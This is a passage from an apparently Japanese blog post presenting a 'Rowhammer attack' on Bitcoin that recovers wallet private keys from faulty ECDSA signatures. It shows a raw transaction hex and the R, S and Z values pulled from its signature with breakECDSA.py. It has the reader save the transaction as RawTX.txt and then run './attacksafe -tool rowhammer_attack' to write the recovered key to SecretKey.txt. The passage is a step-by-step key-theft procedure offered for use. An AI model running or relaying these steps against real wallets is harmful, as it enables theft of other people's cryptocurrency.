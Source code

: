 

<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001a11dd54f81e27ca14eaf9bb4c94e6b91398130bdb09a71fa2dccf994636de08a1d0000006b483045022100f6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386022048c1b699c4ac92dc3add691935b6e561d7e0ea1d7053af298c09c3e3f23e7f8f012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0162020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-144-1024x245.png" alt="署名フォルトを使用して Bitcoin ウォレットの秘密鍵を取得する方法 (Bitcoin に対する Rowhammer 攻撃)" class="wp-image-1250"/></figure>



<pre class="wp-block-code"><code>R = 0xf6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386
S = 0x48c1b699c4ac92dc3add691935b6e561d7e0ea1d7053af298c09c3e3f23e7f8f
Z = 0x51e6147848d2e81e2b6b71a5f2b29be5121752b88cc1d5e1392c001b04b4c2d9</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>脆弱な ECDSA 署名トランザクションから秘密鍵を取得するために、データを<code>RawTX</code>テキスト ドキュメントに追加してファイルとして保存しましょう<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>0100000001a11dd54f81e27ca14eaf9bb4c94e6b91398130bdb09a71fa2dccf994636de08a1d0000006b483045022100f6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386022048c1b699c4ac92dc3add691935b6e561d7e0ea1d7053af298c09c3e3f23e7f8f012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0162020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool rowhammer_attack</code>ソフトウェアを使用して起動する<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool rowhammer_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-145-1024x299.png" alt="署名フォルトを使用して Bitcoin ウォレットの秘密鍵を取得する方法 (Bitcoin に対する Rowhammer 攻撃)" class="wp-image-1252"/></figure>



<p>この攻撃は から開始され<code>-tool rowhammer_attack</code>、結果はファイルに保存されました<code>SecretKey.txt</code></p>



<p>成功した結果を確認するには、ファイルを開きます<code>SecretKey.txt</code></p>


